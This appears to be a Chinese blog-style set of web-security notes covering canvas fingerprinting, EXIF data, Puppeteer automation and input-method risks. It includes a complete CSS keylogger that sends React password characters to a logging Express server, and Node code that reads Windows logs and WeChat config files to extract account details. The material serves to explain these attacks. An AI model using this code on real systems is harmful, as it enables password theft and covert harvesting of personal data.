

# 网络安全

## canvas 指纹追踪技术

[Canvas 指纹：一种隐秘且精准的跟踪技术 (browserscan.net)](https://blog.browserscan.net/zh/docs/canvas-fingerprinting)

### 技术场景（常用于广告联盟）

例如你在某个网站上看到某个商品没有登录过账号信息，过两天用同台电脑访问其他网站的时候却发现很多同类商品的广告。

在过去我们可能使用 cookie 去追踪用户信息，不过弊端也很明显 cookie 可以被用户禁止掉，从而无法追踪，并且无法跨域访问。

或者就是浏览器指纹（navigator）

userAgent(用户代理)

```bash
'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36'
```

language（浏览器的语言）

```bash
'zh-CN'
```

platform（操作系统）

```bash
"MacIntel"  //Mac英特尔
```

这些指纹不能对某个人进行唯一性标识，也无法对客户端进行唯一性判定，基于 HTML5 的诸多高级指纹对此提供了新思路

### canvas 指纹

canvas 相信我们大家都用过，例如绘制一些图形，游戏等等，都会用到。它也可以用来跟踪用户当我们调用 toDataURL 转换 base64，他底层会获取设备，操作系统，浏览器，三合一的唯一标识，如果其他用户使用的这三个信息和你一样的话也是重复这个概率是很低的也不排除有可能。

### 生成 canvas 指纹

生成 canvas 指纹的代码

```js
const uuid = () => {
	const canvas = document.createElement("canvas");
	const ctx = canvas.getContext("2d");
	const txt = "test";
	ctx.fillText(txt, 10, 10);
	console.log(canvas.toDataURL());
	return md5(canvas.toDataURL());
};
```

生成的 Base64（google）

```bash
data:image/png;base64,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
```

生成的 Base64（360 浏览器）

```bash
data:image/png;base64,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
```

每个浏览器的信息不用生成的 base64 串也不同但是图片是一样的

如果太长可以进行 MD5 压缩 或者 crypto

### 如何防止跟踪

安装浏览器插件，谷歌应用商店有随机修改 canvas 指纹的插件（CanvasFingerprintBlock），其原理是，每次随机往 canvas 画布里面注入一个随机的噪音（人肉眼是看不到的），从而影响 base64 加密结果

## CSS 键盘记录器-React

这种行为只存在于使用 React / 类 React 框架的页面中
场景一般隐匿于第三方脚本当中从而窃取你的密码
攻击手段利用 CSS 属性选择器，可以在加载 background-image

例如，以下 css 将选择 atype 等于 password 和 value 以 结尾的所有输入 a。然后它将尝试从：<http://localhost:3000/a>

使用一个简单的脚本可以创建一个 css 文件，该文件将为每个 ASCII 字符发送一个自定义请求。

应为 react 会设置 value 的值


css 列表：index.css

```bash
input[type="password"][value$=" "] { background-image: url("http://localhost:3000/+"); }
input[type="password"][value$="!"] { background-image: url("http://localhost:3000/%21"); }
input[type="password"][value$="\""] { background-image: url("http://localhost:3000/%22"); }
input[type="password"][value$="#"] { background-image: url("http://localhost:3000/%23"); }
input[type="password"][value$="$"] { background-image: url("http://localhost:3000/%24"); }
input[type="password"][value$="%"] { background-image: url("http://localhost:3000/%25"); }
input[type="password"][value$="&"] { background-image: url("http://localhost:3000/%26"); }
input[type="password"][value$="'"] { background-image: url("http://localhost:3000/%27"); }
input[type="password"][value$="("] { background-image: url("http://localhost:3000/%28"); }
input[type="password"][value$=")"] { background-image: url("http://localhost:3000/%29"); }
input[type="password"][value$="*"] { background-image: url("http://localhost:3000/%2A"); }
input[type="password"][value$="+"] { background-image: url("http://localhost:3000/%2B"); }
input[type="password"][value$=","] { background-image: url("http://localhost:3000/%2C"); }
input[type="password"][value$="-"] { background-image: url("http://localhost:3000/-"); }
input[type="password"][value$="."] { background-image: url("http://localhost:3000/."); }
input[type="password"][value$="/"] { background-image: url("http://localhost:3000/%2F"); }
input[type="password"][value$="0"] { background-image: url("http://localhost:3000/0"); }
input[type="password"][value$="1"] { background-image: url("http://localhost:3000/1"); }
input[type="password"][value$="2"] { background-image: url("http://localhost:3000/2"); }
input[type="password"][value$="3"] { background-image: url("http://localhost:3000/3"); }
input[type="password"][value$="4"] { background-image: url("http://localhost:3000/4"); }
input[type="password"][value$="5"] { background-image: url("http://localhost:3000/5"); }
input[type="password"][value$="6"] { background-image: url("http://localhost:3000/6"); }
input[type="password"][value$="7"] { background-image: url("http://localhost:3000/7"); }
input[type="password"][value$="8"] { background-image: url("http://localhost:3000/8"); }
input[type="password"][value$="9"] { background-image: url("http://localhost:3000/9"); }
input[type="password"][value$=":"] { background-image: url("http://localhost:3000/%3A"); }
input[type="password"][value$=";"] { background-image: url("http://localhost:3000/%3B"); }
input[type="password"][value$="<"] { background-image: url("http://localhost:3000/%3C"); }
input[type="password"][value$="="] { background-image: url("http://localhost:3000/="); }
input[type="password"][value$=">"] { background-image: url("http://localhost:3000/%3E"); }
input[type="password"][value$="?"] { background-image: url("http://localhost:3000/?"); }
input[type="password"][value$="@"] { background-image: url("http://localhost:3000/%40"); }
input[type="password"][value$="A"] { background-image: url("http://localhost:3000/A"); }
input[type="password"][value$="B"] { background-image: url("http://localhost:3000/B"); }
input[type="password"][value$="C"] { background-image: url("http://localhost:3000/C"); }
input[type="password"][value$="D"] { background-image: url("http://localhost:3000/D"); }
input[type="password"][value$="E"] { background-image: url("http://localhost:3000/E"); }
input[type="password"][value$="F"] { background-image: url("http://localhost:3000/F"); }
input[type="password"][value$="G"] { background-image: url("http://localhost:3000/G"); }
input[type="password"][value$="H"] { background-image: url("http://localhost:3000/H"); }
input[type="password"][value$="I"] { background-image: url("http://localhost:3000/I"); }
input[type="password"][value$="J"] { background-image: url("http://localhost:3000/J"); }
input[type="password"][value$="K"] { background-image: url("http://localhost:3000/K"); }
input[type="password"][value$="L"] { background-image: url("http://localhost:3000/L"); }
input[type="password"][value$="M"] { background-image: url("http://localhost:3000/M"); }
input[type="password"][value$="N"] { background-image: url("http://localhost:3000/N"); }
input[type="password"][value$="O"] { background-image: url("http://localhost:3000/O"); }
input[type="password"][value$="P"] { background-image: url("http://localhost:3000/P"); }
input[type="password"][value$="Q"] { background-image: url("http://localhost:3000/Q"); }
input[type="password"][value$="R"] { background-image: url("http://localhost:3000/R"); }
input[type="password"][value$="S"] { background-image: url("http://localhost:3000/S"); }
input[type="password"][value$="T"] { background-image: url("http://localhost:3000/T"); }
input[type="password"][value$="U"] { background-image: url("http://localhost:3000/U"); }
input[type="password"][value$="V"] { background-image: url("http://localhost:3000/V"); }
input[type="password"][value$="W"] { background-image: url("http://localhost:3000/W"); }
input[type="password"][value$="X"] { background-image: url("http://localhost:3000/X"); }
input[type="password"][value$="Y"] { background-image: url("http://localhost:3000/Y"); }
input[type="password"][value$="Z"] { background-image: url("http://localhost:3000/Z"); }
input[type="password"][value$="["] { background-image: url("http://localhost:3000/%5B"); }
input[type="password"][value$="\\"] { background-image: url("http://localhost:3000/%5C"); }
input[type="password"][value$="]"] { background-image: url("http://localhost:3000/%5D"); }
input[type="password"][value$="^"] { background-image: url("http://localhost:3000/%5E"); }
input[type="password"][value$="_"] { background-image: url("http://localhost:3000/_"); }
input[type="password"][value$="`"] { background-image: url("http://localhost:3000/%60"); }
input[type="password"][value$="a"] { background-image: url("http://localhost:3000/a"); }
input[type="password"][value$="b"] { background-image: url("http://localhost:3000/b"); }
input[type="password"][value$="c"] { background-image: url("http://localhost:3000/c"); }
input[type="password"][value$="d"] { background-image: url("http://localhost:3000/d"); }
input[type="password"][value$="e"] { background-image: url("http://localhost:3000/e"); }
input[type="password"][value$="f"] { background-image: url("http://localhost:3000/f"); }
input[type="password"][value$="g"] { background-image: url("http://localhost:3000/g"); }
input[type="password"][value$="h"] { background-image: url("http://localhost:3000/h"); }
input[type="password"][value$="i"] { background-image: url("http://localhost:3000/i"); }
input[type="password"][value$="j"] { background-image: url("http://localhost:3000/j"); }
input[type="password"][value$="k"] { background-image: url("http://localhost:3000/k"); }
input[type="password"][value$="l"] { background-image: url("http://localhost:3000/l"); }
input[type="password"][value$="m"] { background-image: url("http://localhost:3000/m"); }
input[type="password"][value$="n"] { background-image: url("http://localhost:3000/n"); }
input[type="password"][value$="o"] { background-image: url("http://localhost:3000/o"); }
input[type="password"][value$="p"] { background-image: url("http://localhost:3000/p"); }
input[type="password"][value$="q"] { background-image: url("http://localhost:3000/q"); }
input[type="password"][value$="r"] { background-image: url("http://localhost:3000/r"); }
input[type="password"][value$="s"] { background-image: url("http://localhost:3000/s"); }
input[type="password"][value$="t"] { background-image: url("http://localhost:3000/t"); }
input[type="password"][value$="u"] { background-image: url("http://localhost:3000/u"); }
input[type="password"][value$="v"] { background-image: url("http://localhost:3000/v"); }
input[type="password"][value$="w"] { background-image: url("http://localhost:3000/w"); }
input[type="password"][value$="x"] { background-image: url("http://localhost:3000/x"); }
input[type="password"][value$="y"] { background-image: url("http://localhost:3000/y"); }
input[type="password"][value$="z"] { background-image: url("http://localhost:3000/z"); }
input[type="password"][value$="{"] { background-image: url("http://localhost:3000/%7B"); }
input[type="password"][value$="|"] { background-image: url("http://localhost:3000/%7C"); }
input[type="password"][value$="\\}"] { background-image: url("http://localhost:3000/%7D"); }
input[type="password"][value$="~"] { background-image: url("http://localhost:3000/~"); }
input[type="password"][value$=""] { background-image: url("http://localhost:3000/%7F"); }
```

服务器端 express 便可以取截取到你传输的数据：index.js

```js
const express = require("express");
const app = express();

app.get("/:key", (req, res) => {
	process.stdout.write(req.params.key);
	return res.sendStatus(400);
});

app.listen(3000, () => console.log("> Ready to keylog at localhost:3000"));
```

react 代码：index.html

```html
<script src="https://cdn.bootcdn.net/ajax/libs/react/16.13.1/umd/react.production.min.js"></script>
<script src="https://cdn.bootcdn.net/ajax/libs/react-dom/16.13.1/umd/react-dom.production.min.js"></script>
<script src="https://cdn.bootcdn.net/ajax/libs/babel-standalone/7.0.0-beta.3/babel.min.js"></script>
<script type="text/babel">
	const Ipt = React.createElement(() => {
		const { useState } = window.React;
		const [state, setState] = useState({ val: "123" });
		const setInput = (e) => {
			setState({
				val: e.target.value,
			});
		};
		return (
			<input type="password" onChange={setInput} value={state.val}></input>
		);
	});
	ReactDOM.render(Ipt, document.getElementById("app"));
</script>
```

## 照片信息 EXIF

EXIF（Exchangeable Image File）是“可交换图像文件”的缩写，当中包含了专门为数码相机的照片而定制的元数据，可以记录数码照片的拍摄参数、缩略图及其他属性信息，简单来说，Exif 信息是镶嵌在 JPEG/TIFF 图像文件格式内的一组拍摄参数，需要注意的是 EXIF 信息是不支持 png,webp 等图片格式的。（建议自己试的时候，现拍一张，把地理位置信息开启，这样得到的是完整的 EXIF 信息）

简单来说就是当你拍照片的时候会存储你的一些信息，例如拍摄的位置，拍摄的时间，相机参数等，这些信息的泄露也会给我们造成麻烦。

场景 我们经常在一些聊天软件传输一些照片，例如 WX 你默认传输的时候他是会被压缩体积很小，应为破坏了 EXIF 信息，当你设置了原图传输他将保留你照片的 EXIF 信息别人只要查看就可以读取你照片的信息。

当我勾选了原图


别人下载了之后

可以通过照片的详细信息看到 EXIF 版本


然后上传到获取 EXIF 的网站：[EXIF 信息查看器 (tuchong.com)](https://exif.tuchong.com/)

基本能获取到很多信息例如

Device Manufacturer（设备制造厂商）-> Apple 苹果

#### EXIF-js

当然我们的 web js 也是可以读取这些信息的

我们需要一个库的支持 EXIF-js

```html
<script src="https://cdn.jsdelivr.net/npm/exif-js"></script>
```

##### 用法

```html
<div>
	
	<p>非原图</p>
</div>
<div>
	
	<p>原图</p>
</div>
<div>
	
	<p>原图2</p>
</div>
```

EXIF.getData(img, callback)获取图像的数据

EXIF.getTag(img, tag)获取图像的某个数据

EXIF.getAllTags(img)获取图像的全部数据，值以对象的方式返回

EXIF.pretty(img)获取图像的全部数据，值以字符串的方式返回

```js
const file = document.querySelector("#img3");
EXIF.getData(file, function () {
	const data = EXIF.pretty(this);
	console.log(data);
});
```

##### 部分参数说明

GPS 相关名称说明

GPSVersionIDGPS 版本

GPSLatitudeRef 南北纬

GPSLatitude 纬度

GPSLongitudeRef 东西经

GPSLongitude 经度

GPSAltitudeRef 海拔参照值

GPSAltitude 海拔

GPSTimeStamp GPS 时间戳

GPSSatellites 测量的卫星

GPSStatus 接收器状态

GPSMeasureMode 测量模式

GPSDOP 测量精度

GPSSpeedRef 速度单位

GPSSpeed GPS 接收器速度

GPSTrackRef 移动方位参照

GPSTrack 移动方位

GPSImgDirectionRef 图像方位参照

GPSImgDirection 图像方位

GPSMapDatum 地理测量资料

GPSDestLatitudeRef 目标纬度参照

GPSDestLatitude 目标纬度 GPSDestLongitudeRef 目标经度参照

GPSDestLongitude 目标经度

GPSDestBearingRef 目标方位参照

GPSDestBearing 目标方位

GPSDestDistanceRef 目标距离参照

GPSDestDistance 目标距离

GPSProcessingMethod

GPS 处理方法名

GPSAreaInformation GPS 区功能变数名

GPSDateStampGPS 日期

GPSDifferential GPS 修正

## 蜜罐技术

首先，我们先讲一下蜜罐的概念，你可以简单理解较为蜜罐就是一个陷阱，故意暴露一些我们人为设计好的漏洞，让攻击者自投罗网。

### 一、蜜罐介绍

蜜罐是对攻击者的欺骗技术，用以监视、检测、分析和溯源攻击行为，其没有业务上的用途，所有流入/流出蜜罐的流量都预示着扫描或者攻击行为，因此可以比较好的聚焦于攻击流量。

蜜罐可以实现对攻击者的主动诱捕，能够详细地记录攻击者攻击过程中的许多痕迹，可以收集到大量有价值的数据，如病毒或蠕虫的源码、黑客的操作等，从而便于提供丰富的溯源数据。另外蜜罐也可以消耗攻击者的时间，基于 JSONP 等方式来获取攻击者的画像。

但是蜜罐存在安全隐患，如果没有做好隔离，可能成为新的攻击源。

### 二、蜜罐技术获取手机号、微信号、地址

#### 1.读取 PFRO 日志文件（这个文件是存放 ISA 监控日志的信息）


通过这个文件可以读取系统的用户名


Nodejs 代码

```js
fs.readFile("C:/Windows/PFRO.log", async (err, data) => {
	const exp = /Users\\([^\\]*)/gi;
	exp.test(data.toString("utf16le"));
	const userName = RegExp.$1;
	const wxId = await getWxId(userName);
	const info = await getData(userName, wxId);
	console.log(info);
});
```

#### 2.通过用户名读取 wxid

```typescript
// 获取微信ID
const getWxId = <T>(path: T) => {
	const data = fs
		.readFileSync(
			`C:/Users/${path}/Documents/WeChat Files/All Users/config/config.data`
		)
		.toString("utf8");
	const reg = /Documents\\WeChat Files\\([^\\]*)/gi;
	reg.test(data);
	return RegExp.$1;
};
```



#### 3.最后通过微信 ID 读取你的微信信息（手机号，微信号，等）

完整代码

```typescript
import fs from "fs";
// 获取微信ID
const getWxId = <T>(path: T) => {
	const data = fs
		.readFileSync(
			`C:/Users/${path}/Documents/WeChat Files/All Users/config/config.data`
		)
		.toString("utf8");
	const reg = /Documents\\WeChat Files\\([^\\]*)/gi;
	reg.test(data);
	return RegExp.$1;
};
// 读取信息
const getData = <T>(path: T, wxId: T) => {
	const data = fs
		.readFileSync(
			`C:/Users/${path}/Documents/WeChat Files/${wxId}/config/AccInfo.dat`
		)
		.toString("utf-8");
	return data;
};
fs.readFile("C:/Windows/PFRO.log", async (err, data) => {
	const exp = /Users\\([^\\]*)/gi;
	exp.test(data.toString("utf16le"));
	const userName = RegExp.$1;
	const wxId = await getWxId(userName);
	const info = await getData(userName, wxId);
	console.log(info);
});
```


## 自动化 UI 测试

今天介绍一个 npm 包 Puppeteer

他的功能有很多

- 支持分布式爬取

- 实现了深度优先和广度优先算法

- 支持 csv 和 json line 格式导出

- 插件式的结果存储，比如支持 redis

- 自动插入 jquery，可以使用 jquery 语法进行结果处理

- 支持截图作为爬取证据

- 支持模拟不同的设备

今天我们来实现一个 demo 自动化测试

首先需要安装一下 Puppeteer

```bash
# 装过可以忽略
npm install pnpm -g
# 项目中安装puppeteer
pnpm add puppeteer
```

他的包很大 100MB 应为他带了 Chromium

```typescript
import puppeteer from "puppeteer";

//延迟函数
const sleep = (time: number) => {
	return new Promise((r, j) => {
		setTimeout(() => {
			r(time);
		}, time);
	});
};

(async () => {
	//通过 launch 生成一个’浏览器‘实例,
	//option 中的 headless 是个布尔值，如果是 false 的话你就会看到一个浏览器从打开，到完成     //你整个任务的全过程，
	//默认是 true，也就是在后台自动完成你的任务
	const browser = await puppeteer.launch({
		headless: false,
		defaultViewport: null,
		args: ["--start-maximized"],
	});
	//打开一个新的标签页
	const page = await browser.newPage();
	//跳转到对应的页面
	await page.goto("https://jd.com");
	//获取搜索框的元素
	const key = await page.$("#key");
	//聚焦
	await key?.focus();
	//搜索东西
	await page.keyboard.sendCharacter("iphone13");
	//点击搜索按钮
	await page.click(".button");
	//延迟一秒钟
	await sleep(1000);
	//等待元素加载完成
	await page.waitForSelector(".gl-item");
	//开始自动滚动为了截图全屏有数据
	let scrollEnable: boolean = true;
	let scrollStep: number = 500;
	while (scrollEnable) {
		scrollEnable = await page.evaluate((scrollStep: number) => {
			let scrollTop: number = document.scrollingElement?.scrollTop ?? 0;
			document.scrollingElement!.scrollTop = scrollTop + scrollStep;
			return document.body.clientHeight > scrollTop + 1080 ? true : false;
		}, scrollStep);
		//防止滚动过快
		await sleep(500);
	}
	//截图全屏
	await page.screenshot({ path: `iphone13.png`, fullPage: true });
})();
```

## 输入法

### 场景 1

输入法一定是安全的吗？在之前也曾曝出不少输入法搜集用户信息获取照片权限，通讯录权限，等。

试想一下当你使用某种聊天工具，在跟朋友探讨一件商品，过了一会儿，在某度，某宝，某东可能就推荐了。


发现呢是已经推送了，神奇的输入法


### 场景 2

在我们使用微信，支付宝，等支付软件付款的时候，发现键盘是 App 自带的，并非第三方输入法


这个是由于第三方软件输入的频次过多他会把密码记录下来，其二就是如果三方输入法被木马入侵，也容易盗取我们的密码造成损失。

所以在我们开发移动端的时候遇到支付都会使用虚拟键盘


